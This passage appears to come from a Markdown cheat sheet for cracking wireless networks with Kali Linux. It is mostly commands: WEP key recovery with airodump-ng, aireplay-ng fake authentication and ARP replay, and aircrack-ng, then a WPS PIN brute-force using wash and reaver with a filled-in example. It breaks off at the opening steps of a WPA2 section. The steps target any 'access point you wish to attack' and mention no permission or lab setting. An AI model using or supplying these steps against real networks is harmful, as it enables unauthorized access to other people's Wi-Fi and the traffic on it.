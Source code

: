  - Identify the access point you wish to attack. Copy it's channel, and MAC address into following command. Also create a name for the log file.
>airodump-ng -c <channel> -w <logname> --bssid <mac address> wlan0mon

 - Allow the previous command to run and open a new terminal window. -1 means fake authentication. 0 means reassociation timing in seconds. -a <mac address> is the access point MAC address. wlan0mon is the wireless interface name.
>aireplay-ng -1 0 -a <mac address> wlan0mon

 - Wait for "Association successful" message. Open a new terminal window. -3 means arp request replay. -b <mac address> is the access point MAC address. wlan0mon is the wireless interface name.
>aireplay-ng -3 -b <mac address> wlan0mon

 - Allow the previous command to run and open a new terminal window. <logname.cap> is the file created above. 
>aircrack-ng <logname.cap>




WPS cracking
=
 - Make sure all wireless adapters are connected and visible to Kali
>iwconfig 

 - Kill processes which can interfer with required changes
>airmon-ng check kill

 - Put your wireless adapter into monitor mode so that it can see all traffic broadcast
>airmon-ng start wlan0

 - List wireless networks using WPS within rx range.  Looks for all wireless encryption types on both 2ghz and 5ghz. -5 adds 5Ghz channels to the scan. -s -C
>wash -i wlan0mon -s -C -5

 - Allow the list to accumulate a names for 2-5 minutes. Then stop the scan.
>CTRL + C

 - Open a second terminal so you can still see the first window. 
>reaver -i wlan0mon -c <channel> -b <mac address> -vv -N -L 

 - If the previous command stops being effective after a few minutes try the following command instead.
>reaver -i wlan0mon -c <channel> -b <mac address> -vv -N -L --fail-wait=360

 - Once the WPS key is found new passwords can be cracked much more quickly
>reaver -i (monitor interface) -b (BSSID) -c (channel) --pin=(8 digit pin) -vv

**Example**
>reaver -i wlan0mon -c 2 -b C8:D7:19:0D:E3:F7 -vv -S -N -L -d 15 -r 3:15 -T .5 -x 360
**Example**



WPA2 cracking
=
 - Make sure all wireless adapters are connected and visible to Kali.
>iwconfig 

 - Kill processes which can interfer with required changes.
>airmon-ng check kill
